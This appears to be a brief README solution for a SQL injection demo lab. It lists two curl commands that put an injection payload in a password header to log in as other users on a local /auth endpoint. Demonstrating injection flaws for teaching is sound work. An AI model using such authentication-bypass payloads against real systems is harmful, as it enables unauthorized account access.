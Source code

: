 # sql-injection-demo

# Solution:

- `curl {server ip}:8000/auth -H "username:viet009" -H "pw:' OR username='viet010' --'"`
- `curl {server ip}:8000/auth -H "username:viet009" -H "pw:' OR username='viet020' --'"`
